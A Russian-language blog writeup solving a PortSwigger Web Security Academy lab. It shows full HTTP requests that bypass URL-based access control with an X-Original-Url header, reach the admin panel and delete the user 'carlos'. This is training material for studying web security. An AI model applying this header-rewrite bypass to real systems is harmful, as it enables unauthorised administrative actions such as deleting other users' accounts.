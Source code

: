 ```yaml
---
title: "URL-based access control can be circumvented"
date: 2025-07-24
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/access-control/lab-url-based-access-control-can-be-circumvented"
classes: wide
---
```


Для прохождения нужно зайти в панель администратора и удалить пользователя `carlos`.

```
https://0a2600a604ab062180e8852a0058005c.web-security-academy.net/
```

## Solution

О как. Есть ссылка на панель админа, но у меня нет к ней доступа.

```
https://0a2600a604ab062180e8852a0058005c.web-security-academy.net/admin
```

Видим, что блокируют запросы по этому `URL`:

```http
GET / HTTP/2
Host: 0a2600a604ab062180e8852a0058005c.web-security-academy.net
Cookie: session=eknFKHZZHexxMzkwExN9i09JYw0RhXoo
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a2600a604ab062180e8852a0058005c.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Попробую добавить заголовок `X-Original-URL` или `X-Rewrite-URL`. Они используются для изменения оригинального `URL` в запросе некоторыми фреймворками.

```http
GET / HTTP/2
Host: 0a2600a604ab062180e8852a0058005c.web-security-academy.net
Cookie: session=eknFKHZZHexxMzkwExN9i09JYw0RhXoo
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a2600a604ab062180e8852a0058005c.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
X-Original-Url: /admin
```

Ответ получен:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_URL-based_access_control_can_be_circumvented/1.png){: height="200" .align-center}

Найду энпоинт для удаления пользователя:

```
/admin/delete?username=carlos
```

Соберу запрос:

```http
GET /?username=carlos HTTP/2
Host: 0a2600a604ab062180e8852a0058005c.web-security-academy.net
Cookie: session=eknFKHZZHexxMzkwExN9i09JYw0RhXoo
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a2600a604ab062180e8852a0058005c.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
X-Original-Url: /admin/delete
```

Успех)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_URL-based_access_control_can_be_circumvented/2.png){: height="200" .align-center}
